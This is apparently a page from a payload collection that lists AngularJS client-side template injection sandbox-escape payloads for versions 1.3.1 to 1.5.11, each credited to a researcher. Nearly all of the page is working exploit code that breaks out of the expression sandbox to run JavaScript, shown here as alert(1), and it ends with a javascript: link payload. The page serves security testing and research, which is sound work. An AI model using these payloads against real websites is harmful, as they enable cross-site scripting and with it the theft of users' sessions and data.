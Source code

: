 **1.3.1 - 1.3.2** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf; 
    $eval('x=alert(1)//'); 
}}
```

**1.3.3 - 1.3.18** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join; 

  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

**1.3.19** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join; 
    $eval('x=alert(1)//'); 
}}

```

**1.3.20** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

**1.4.0 - 1.4.9** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

**1.5.0 - 1.5.8** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{x = {'y':''.constructor.prototype}; x['y'].charAt=[].join;$eval('x=alert(1)');}}
```

**1.5.9 - 1.5.11** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```


[a]: (javascript:prompt(1))